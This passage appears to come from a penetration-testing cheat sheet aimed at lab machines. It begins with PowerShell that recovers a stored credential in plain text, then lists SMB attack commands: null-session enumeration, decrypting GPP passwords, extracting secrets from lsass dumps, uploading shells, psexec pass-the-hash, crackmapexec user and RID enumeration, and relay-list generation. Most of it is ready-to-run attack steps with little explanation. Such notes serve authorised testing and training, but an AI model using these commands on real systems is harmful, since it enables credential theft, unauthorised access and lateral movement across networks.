 Using only the password string

```
$pass = '01000000d08c9ddf0115d1118c7a00c04fc297eb01000000e4a07bc7aaeade47925c42c8be5870730000000002000000000003660000c000000010000000d792a6f34a55235c22da98b0c041ce7b0000000004800000a00000001000000065d20f0b4ba5367e53498f0209a3319420000000d4769a161c2794e19fcefff3e9c763bb3a8790deebf51fc51062843b5d52e40214000000ac62dab09371dc4dbfd763fea92b9d5444748111' | convertto-securestring
```

```
$user = 'domain\user'
```

```
$cred = New-Object System.Management.Automation.PSCredential $user,$pass
```

```
$cred.getnetworkcredential() | fl
```

### Samba/SMB

_When testing with smb try with null sessions, anonymous, and valid credentials_

* run enum4linux to possibly find users, shares, files
* use "smbclient" to manually view the shares/files:
  * look for "GPP" Groups.xml -- may contain a "cpassword" and username
    * use `gpp-decrypt cpassword` to decrypt
  * look for lsass.zip or lsass.DMP -- may contain encrypted password, Kerberos tickets, NT hash, LM hash, DPAPI keys,and Smartcard PIN
    * use `pypykatz lsa minidump lsass.DMP`
* can you read or upload files?
* Can you upload a file with a shell? Is there a service/cronjob that can execute your uploaded file?
* smbget -R "smb://user:pass@IP/Share" -- recusivley get files replace user and pass with a space for null sessions
* smbclient //IP/share
* smbclient -N //IP/share -c ls | awk '{ print $1 }' -- this will get the names of the directories of the first column for potential users
* ms09\_050\_smb2\_negotiate\_func\_index Exploit (Windows Only)

_try all three if needed smbexec,psexec,wmiexec_ (if you cannot upload ry tools anyway, you may get a shell)

* psexec.py example.com/username@ip -- may or may not need credentials
* psexec.py ./administrator@IP -hashes :NTHASH
* smbexec.py user:password@IP
* wmiexec
* smbmap -u user -p pass -H IP -- smbmap work better than smbclient
* smbmap -u SABatchJobs -p SABatchJobs -H megabank.local -A '.\*' -R download everything
* use allinfo file if download is 0 bytes it may be 'Alternate Data Streams (ADS)'
* cme smb 10.10.10.161 -u '' -p '' -- checks for null sessions and this is different from anonymous loging
* cme smb 10.10.10.161 -u 'anonymous' -p ''
* cme smb 10.10.10.161 --pass-pol
* cme smb 10.10.10.161 --users
* cme smb 10.10.10.161 --groups
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --sessions
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --shares
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --loggedon-users
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --users
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' --rid-brute
* cme smb 192.168.1.0/24 -u UserNAme -p 'PASSWORDHERE' s --local-group
* cme smb 192.168.1.0/24 --gen-relay-list relaylistOutputFilename.txt
